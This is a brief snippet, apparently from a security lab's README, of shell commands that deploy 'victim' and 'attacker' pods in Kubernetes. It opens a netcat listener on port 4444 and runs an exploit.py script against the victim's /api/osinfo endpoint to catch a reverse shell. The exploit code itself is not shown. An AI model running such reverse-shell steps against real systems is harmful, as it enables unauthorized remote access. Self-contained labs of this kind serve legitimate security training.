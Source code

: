 kubectl apply -f victim-pod.yaml
kubectl apply -f attacker-pod.yaml

# Shell 1
kubectl exec -it attacker -- bash
nc -nlvp 4444

# Shell 2
kubectl exec -it attacker -- bash
python3 exploit.py -u http://victim:3000/api/osinfo?param --lport 4444 --lhost $(kubectl get pod attacker -o jsonpath='{.status.podIP}')
